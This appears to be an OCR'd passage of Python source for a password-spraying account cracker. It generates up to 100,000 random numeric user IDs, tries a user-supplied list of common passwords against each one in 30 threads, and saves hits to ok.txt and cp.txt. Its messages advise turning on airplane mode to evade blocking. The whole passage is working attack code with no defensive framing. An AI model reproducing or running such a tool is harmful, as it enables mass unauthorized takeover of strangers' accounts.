 				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

		

	def old4_7(self):

		x = 11111111

		xx = 99999999

		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))

		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(100000 MAX): \033[0;92m"))

		if (limit)>100000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
